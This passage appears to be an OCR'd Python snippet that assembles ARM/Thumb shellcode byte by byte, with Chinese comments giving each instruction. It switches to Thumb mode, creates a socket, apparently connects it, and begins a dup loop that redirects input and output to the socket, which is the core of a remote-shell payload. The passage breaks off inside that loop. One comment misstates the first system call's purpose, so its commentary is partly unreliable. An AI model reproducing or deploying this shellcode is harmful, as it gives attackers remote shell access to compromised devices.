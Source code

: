 ```python
#切换为Thumb指令集

#add r1, pc, #1;

#bx r1;

sc =  b'\x01\x10\x8f\xe2'
sc += b'\x11\xff\x2f\xe1'

#r7保存系统调用号

#r7 = 153;清空所有内存页状态

#mov r0, #2;

#mov r1, #1;

#sub r2, r2, r2;

#lsl r7, r1, #8;

#add r7, #25

#svc 1;

sc += b'\x02\x20'
sc += b'\x01\x21'
sc += b'\x92\x1a'
sc += b'\x0f\x02'
sc += b'\x19\x37'
sc += b'\x01\xdf'

#socket创建套接字

#add r6, r0, #0;

#add r1, pc, #32;

#mov r2, #16;

#add r7, #2;

#svc 1;

sc += b'\x06\x1c'
sc += b'\x08\xa1'
sc += b'\x10\x22'
sc += b'\x02\x37'
sc += b'\x01\xdf'

#循环dup重定向输入输出流到socket

#mov r7, #63;

#mov r1, #2;

sc += b'\x3f\x27'
sc += b'\x02\x21'
#Dup:

#add r0, r6, #0;

#svc 1;
```